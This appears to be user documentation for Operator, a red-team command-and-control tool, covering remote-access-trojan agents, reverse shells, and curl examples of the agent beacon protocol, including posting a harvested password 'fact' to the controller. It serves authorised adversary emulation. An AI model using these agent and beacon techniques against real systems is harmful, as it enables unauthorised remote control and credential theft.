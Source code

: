 
# What is an agent

#### Remote access trojans

---

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor.
Agents beacon into Operator periodically to ask for instructions to run. Each agent is
automatically grouped into a range. Agents communicate to
this application through one of several network protocols, such as TCP, UDP, or HTTP.

### What is ThirdEye

---

ThirdEye is a NodeJS agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches
and beacons into your Home range with the username of the user running the desktop application. It only communicates
locally to Operator and is designed for testing TTPs out before deploying them in the wild. Check out the Home range
in the Operate section to view ThirdEye. ThirdEye does not support reverse shells.

### Download agents

---

All available agents can be found in the Editor section by clicking on the manage payloads icon. Here, you will find agents 
written in various computer languages, intended for various operating systems, and connecting to Operator over 
various network protocols. The most popular open-source agent is called Pneuma, a Golang agent which supports all 
major operating systems and 3 different protocols (TCP, UDP, HTTP). 

### Agent ranges

---

Ranges are logical groupings of agents. For example, a range can be used to cluster agents from various platforms (darwin, 
linux, windows) in order to run a cross-platform chain against all the agents. Agents can be moved between ranges using 
either command line flags or the Update Agent Configuration modal in the Operate section.

### Reverse shell

---

If you are working with a TCP-based agent you can open a reverse-shell to it by clicking the terminal icon.
This shell will give you a local terminal to the selected agent which allows you to take manual control of the host.

### Locking an agent

---

Lock an agent in order to approve or reject each instruction (TTP) before it is picked up and executed.
Look for the lock icon at the upper right-hand corner of the agent dashboard. When an agent is locked, all instructions
will enter pending state where you can approve or reject them one at a time.

### Agent facts

---

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands.
You can interact with these facts by clicking the document icon. while inside a given agent's dashboard. Additionally,
agents can report new facts over the HTTP listening post. It requires your API key to authenticate with Operator, 
which - if you're adding this command inside a TTP - you can use the automatic #{operator.session} fact to inject your key dynamically (below). 

#### Add facts to an agent

```shell
curl -X POST #{operator.http}/facts -k -H "Authorization: #{operator.session}" -d '{
    "host":"david",
    "facts":[
        {"key": "file.T1005", "value": "/tmp/new/file"},
        {"key": "valuable.password", "value": "abc123", "scope":"range"}
    ]
}'
```
    
### Deleting an agent

---

When you delete a file-based agent, like Pneuma, the connection is stopped and the all agent data is deleted.
However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in
and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command.
You can do this from the Editor section by using the "Stop Agent Process" procedure. Run this, then delete the
agent to completely block it.

### Translators

---

Looking to connect an agent over a non-supported protocol? We have open-sourced the concept of translators, which
are simple Python servers you can deploy anywhere to accept traffic (beacons) over one protocol and translate/proxy them 
to Operator over a supported one. You can get to know the existing translators in our [open-source](https://github.com/preludeorg/community/) 
space.

### Build your own agent

---

You can write your own agent in any language easily. Follow this simple interface to do so. Hint: if you enable 
plain-text encryption from the main Operate section (via the key icon) you can copy the below commands 
into a terminal to get a real agent online. At a minimum, you will need the following attributes: "name", "target", "location", "platform", "executors", "range", "sleep".

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "ttp":"85341c8c-4ecb-4579-8f53-43e3e91d7617",
            "tactic":"discovery",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6"
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ]
}'
``` 
